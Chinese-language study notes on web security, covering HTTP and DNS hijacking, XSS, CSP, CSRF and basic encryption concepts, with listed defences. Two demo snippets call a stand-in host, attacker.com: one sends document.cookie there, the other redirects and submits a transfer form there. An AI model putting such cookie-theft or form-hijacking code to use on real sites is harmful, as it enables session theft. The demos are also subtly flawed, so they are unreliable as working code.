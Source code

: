 
# HTTP 劫持、DNS 劫持与 XSS

- http 劫持是指攻击者在客户端和服务器之间同时建立了连接通道，通过某种方式，让客户端请求发送到自己的服务器，然后自己就拥有了控制响应内容的能力，从而给客户端展示错误的信息，比如在页面中加入一些广告内容。
- DNS 劫持是指攻击者劫持了 DNS 服务器，获得了修改 DNS 解析记录的权限，从而导致客户端请求的域名被解析到了错误的 IP 地址，攻击者通过这种方式窃取用户资料或破坏原有正常服务。
- XSS 是指跨站脚本攻击。攻击者利用站点的漏洞，在表单提交时，在表单内容中加入一些恶意脚本，当其他正常用户浏览页面，而页面中刚好出现攻击者的恶意脚本时，脚本被执行，从而使得页面遭到破坏，或者用户信息被窃取。
- 要防范 XSS 攻击，需要在服务器端过滤脚本代码，将一些危险的元素和属性去掉或对元素进行HTML实体编码。

# 什么是 CSP？
CSP（Content-Security-Policy）指的是内容安全策略，它的本质是建立一个白名单，告诉浏览器哪些外部资源可以加载和执行。我们只需要配置规则，如何拦
截由浏览器自己来实现。

通常有两种方式来开启 CSP
- 一种是设置 HTTP 首部中的Content-Security-Policy
  
- 一种是设置 meta 标签的方式
   <meta http-equiv="Content-Security-Policy">
   
CSP 也是解决 XSS 攻击的一个强力手段

# xss和csrf 攻击


## XSS：

- XSS 是指跨站脚本攻击。攻击者利用站点的漏洞，在表单提交时，在表单内容中加入一些恶意脚本，当其他正常用户浏览页面，而页面中刚好出现攻击者的恶意脚本时，脚本被执行，从而使得页面遭到破坏，或者用户信息被窃取。

- 攻击者对客户端网页注入的恶意脚本一般包括 JavaScript，有时也会包含 HTML 和 Flash。有很多种方式进行 XSS 攻击，但它们的共同点为：将一些隐私数据像 cookie、session 发送给攻击者，将受害者重定向到一个由攻击者控制的网站，在受害者的机器上进行一些恶意操作。


- 要防范 XSS 攻击，需要在服务器端过滤脚本代码，将一些危险的元素和属性去掉或对元素进行HTML实体编码。

```javascript
<!-- index.html -->
<!DOCTYPE html>
<html>
<head>
  <title>XSS Attack Demo</title>
</head>
<body>
  <h1>XSS Attack Demo</h1>
  <div id="content"></div>
  <script src="payload.js"></script>
</body>
</html>


// payload.js
const maliciousScript = `
  const xhr = new XMLHttpRequest();
  xhr.open('GET', 'http://attacker.com/steal-cookie?cookie=' + document.cookie, true);
  xhr.send();
`;

document.getElementById('content').innerHTML = maliciousScript;

```
在上述示例中，恶意脚本payload.js被注入到页面中。该脚本通过XMLHttpRequest发送GET请求，将页面中的Cookie信息发送给攻击者控制的服务器。


### XSS攻击可以分为3类：反射型（非持久型）、存储型（持久型）、基于DOM。



- 1、反射型 （Reflected XSS ） 发出请求时，XSS代码出现在url中，作为输入提交到服务器端，服务器端解析后响应，XSS代码随响应内容一起传回给浏览器，最后浏览器解析执行XSS代码。这个过程像一次反射，所以叫反射型XSS。

- 2、存储型存  Stored XSS和 Reflected XSS的差别就在于，具有攻击性的脚本被保存到了服务器端（数据库，内存，文件系统）并且可以被普通用户完整的从服务的取得并执行，从而获得了在网络上传播的能力。

- 3、DOM型 （DOM-based or local XSS） 即基于DOM或本地的 XSS 攻击：其实是一种特殊类型的反射型 XSS，它是基于 DOM文档对象模型的一种漏洞。可以通过 DOM来动态修改页面内容，从客户端获取 DOM中的数据并在本地执行。基于这个特性，就可以利用 JS脚本来实现 XSS漏洞的利用。

### 防范手段：
1. 输入过滤
2. 输出过滤
3. 加httponly 请求头  锁死cookie /浏览器将禁止页面的Javascript 访问带有 HttpOnly 属性的Cookie

## CSRF：Cross-site request forgery

```dotnetcli
1.  用户C打开浏览器，访问受信任网站A，输入用户名和密码请求登录网站A；
2.  在用户信息通过验证后，网站A产生Cookie信息并返回给浏览器，此时用户登录网站A成功，可以正常发送请求到网站A；
3.  用户未退出网站A之前，在同一浏览器中，打开一个TAB页访问网站B；
4.  网站B接收到用户请求后，返回一些攻击性代码，并发出一个请求要求访问第三方站点A；
5.  浏览器在接收到这些攻击性代码后，根据网站B的请求，在用户不知情的情况下携带Cookie信息，向网站A发出请求。网站A并不知道该请求其实是由B发起的，所以会根据用户C的Cookie信息以C的权限处理该请求，导致来自网站B的恶意代码被执行。 
```

```javascript
<!-- index.html -->
<!DOCTYPE html>
<html>
<head>
  <title>CSRF Attack Demo</title>
</head>
<body>
  <h1>CSRF Attack Demo</h1>
  <form id="transfer-form" action="http://bank.com/transfer" method="POST">
    <input type="hidden" name="amount" value="10000">
    <input type="submit" value="Transfer">
  </form>
  <script src="payload.js"></script>
</body>
</html>
// payload.js
const maliciousScript = `
  const form = document.getElementById('transfer-form');
  form.action = 'http://attacker.com/steal-data';
  form.submit();`;

eval(maliciousScript);
```
在上述示例中，恶意脚本payload.js被执行。该脚本修改了表单transfer-form的目标地址为攻击者控制的服务器，并提交表单。当用户点击"Transfer"按钮时，实际上会向攻击者服务器发送用户的敏感数据。


防御 CSRF 攻击有多种手段：

- 不使用cookie
- 为表单添加校验的 token 校验
- cookie中使用sameSite字段
- 服务器检查 referer 字段



# 身份验证过程中会涉及到密钥，对称加密，非对称加密，摘要的概念，请解释一下

密钥

密钥是一种参数，它是在明文转换为密文或将密文转换为明文的算法中输入的参数。密钥分为对称密钥与非对称密钥，分别应用在对称加密和非对称加密上。

对称加密

对称加密又叫做私钥加密，即信息的发送方和接收方使用同一个密钥去加密和解密数据。对称加密的特点是算法公开、加密和解密速度快，适合于对大数据量进行加密，常见的对称加密算法有 DES、3DES、TDEA、Blowfish、RC5 和 IDEA。

非对称加密

非对称加密也叫做公钥加密。非对称加密与对称加密相比，其安全性更好。对称加密的通信双方使用相同的密钥，如果一方的密钥遭泄露，那么整个通信就会被破解。而非对称加密使用一对密钥，即公钥和私钥，且二者成对出现。私钥被自己保存，不能对外泄露。公钥指的是公共的密钥，任何人都可以获得该密钥。用公钥或私钥中的任何一个进行加密，用另一个进行解密。

摘要

摘要算法又称哈希/散列算法。它通过一个函数，把任意长度的数据转换为一个长度固定的数据串（通常用 16 进制的字符串表示）。算法不可逆。


# 什么时候用的对称加密什么时候非对称加密

建立通信阶段使用非对称性加密，建立完毕后使用对称性加密进行传输



